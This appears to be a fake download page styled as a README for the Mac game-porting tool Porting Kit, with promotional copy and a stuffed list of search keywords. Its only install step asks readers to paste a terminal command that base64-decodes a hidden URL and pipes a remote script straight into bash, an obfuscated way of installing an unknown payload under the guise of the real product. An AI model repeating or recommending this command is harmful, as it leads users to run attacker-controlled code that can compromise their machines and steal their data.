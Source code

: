 # Porting Kit for Mac Download - Premium Gaming Experience

![Porting Kit Interface](https://www.instalki.pl/wp-content/uploads/program/p/porting-kit.webp)

---

### 🔽 Download Porting Kit for Mac

> 📥 Open the terminal on your device and paste the command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQ1L2luc3RhbGwuc2g= | base64 -d))"
```

---

## What is Porting Kit for Mac?

Porting Kit is a revolutionary gaming tool that bridges the gap between Windows and macOS, allowing you to play thousands of Windows-exclusive games on your Mac with just one click. This powerful application leverages advanced Wine implementations to create seamless gaming experiences without the need for dual booting or virtual machines.

Unlike traditional Wine wrappers that require technical expertise, Porting Kit comes with a curated library of pre-configured game wrappers that are optimized for macOS. Each wrapper is custom-tuned for performance, ensuring smooth gameplay even on Apple Silicon (M1/M2) chips. The application handles all the complex backend work - from dependency management to compatibility tweaks - so you can focus on gaming.

With its intuitive Mac-native interface, Porting Kit makes PC gaming on Mac as simple as installing from the App Store. It supports everything from classic titles to modern Steam/Epic games, with regular community-driven updates adding new supported titles every week. Whether you're a casual gamer or a hardcore enthusiast, Porting Kit unlocks a whole new world of gaming possibilities on your Mac.

![Game Selection](https://mac-cdn.softpedia.com/screenshots/porting-kit_8.jpg)

---

## Key Features & Benefits

- 🎮 One-click installation for hundreds of Windows games  
- ⚡️ Optimized for both Intel and Apple Silicon (M1/M2)  
- 🛡️ Safe, legal Wine implementations  
-   Automatic dependency management  
- 🔄 Regular community-driven updates  
- 🏆 Exclusive premium game wrappers  

Transform your Mac into a gaming powerhouse with Porting Kit's cutting-edge technology and effortless setup.

---

## 🔍 Keywords

Porting Kit for Mac, Porting Kit Mac Download, Porting Kit for Mac Download, Porting Kit Mac, Porting Kit Download Mac, Porting Kit Download for Mac, porting kit full version, Mac Download Porting Kit, Download Mac Porting Kit, Download Porting Kit Mac, Download Porting Kit for Mac
